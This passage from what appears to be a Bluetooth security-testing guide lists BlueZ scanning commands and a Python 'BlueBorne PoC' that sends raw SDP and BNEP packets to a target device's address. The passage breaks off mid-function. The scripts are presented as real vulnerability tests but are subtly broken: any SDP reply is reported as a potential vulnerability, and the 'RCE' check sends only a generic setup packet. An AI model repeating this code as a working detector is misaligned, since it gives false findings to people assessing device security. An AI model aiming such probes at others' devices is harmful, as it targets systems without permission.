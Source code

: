 #### 5. **BlueZ Tools** - Core Bluetooth Utilities
```bash
# Installation
sudo apt-get install bluez bluez-tools

# Usage
hcitool scan                    # Scan for devices
hcitool info [MAC]             # Device information
sdptool browse [MAC]           # Service discovery
hciconfig -a                   # Adapter information
```

## Real Vulnerability Testing Scripts

### BlueBorne PoC Implementation
```python
#!/usr/bin/env python3
"""
BlueBorne CVE-2017-0781 PoC - Android SDP Information Disclosure
Based on Armis Security research
"""

import socket
import struct
import bluetooth

def test_blueborne_sdp(target_mac):
    """Test for BlueBorne SDP vulnerability"""
    try:
        # Create L2CAP socket
        sock = socket.socket(socket.AF_BLUETOOTH, socket.SOCK_RAW, socket.BTPROTO_L2CAP)
        
        # SDP Service Search Request
        sdp_request = b'\x02\x00\x00\x0f\x00\x0c\x35\x03\x19\x10\x00\xff\xff\x35\x00'
        
        # Connect and send request
        sock.connect((target_mac, 1))
        sock.send(sdp_request)
        
        response = sock.recv(1024)
        sock.close()
        
        if len(response) > 5:
            return True, "SDP response received - potential vulnerability"
        
        return False, "No vulnerability detected"
        
    except Exception as e:
        return False, f"Connection failed: {str(e)}"

def test_bnep_rce(target_mac):
    """Test for BlueBorne BNEP RCE vulnerability"""
    try:
        # BNEP connection setup packet
        bnep_setup = b'\x01\x01\x00\x02\x11\x16'
        
        sock = socket.socket(socket.AF_BLUETOOTH, socket.SOCK_RAW, socket.BTPROTO_L2CAP)
        sock.connect((target_mac, 15))  # BNEP PSM
        sock.send(bnep_setup)
        
        response = sock.recv(1024)
        sock.close()
        
```
